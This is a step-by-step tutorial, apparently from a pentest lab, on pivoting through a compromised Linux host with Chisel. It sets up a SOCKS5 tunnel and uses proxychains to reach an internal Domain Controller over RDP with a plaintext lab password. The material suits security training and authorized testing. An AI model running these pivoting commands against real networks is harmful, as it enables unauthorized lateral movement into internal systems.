 ## What is Chisel?

**Chisel** is a fast TCP/UDP tunneling tool built in **Go**, using:

- HTTP for transport
- SSH for encryption
- SOCKS5 support for tunneling via proxychains

It helps **pivot** through a compromised host to reach internal services (like RDP or SMB).

## Step-by-Step: Chisel Forward SOCKS5 Tunnel

### 🧪 Scenario

- Internal server (e.g. Domain Controller): `172.16.5.19`
- Pivot (compromised) host: Ubuntu server at `10.129.202.64`
- Attacker host: your machine
  
## 1️⃣ Get Chisel on Your Attack Box
```bash
git clone https://github.com/jpillora/chisel.git
cd chisel
go build   # Requires Go installed
```
Or download a precompiled version from GitHub Releases.

## 2️⃣ Transfer Chisel to the Pivot Host
```bash
scp chisel ubuntu@10.129.202.64:~/
```

## 3️⃣ Run Chisel Server on Pivot Host

```bash
./chisel server -v -p 1234 --socks5
```

✅ This makes the pivot host listen on port `1234` and expose a **SOCKS5 proxy** to the internal network.

## 4️⃣ Connect Chisel Client from Attacker
```bash
./chisel client -v 10.129.202.64:1234 socks
```
✅ This creates a SOCKS5 proxy on your machine at `127.0.0.1:1080`.

## 5️⃣ Configure Proxychains
Edit `/etc/proxychains.conf`:

```bash
[ProxyList]
socks5 127.0.0.1 1080
```

## 6️⃣ Use RDP to Access the Internal Host
```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```
✅ You are now accessing the Domain Controller through the pivot using Chisel.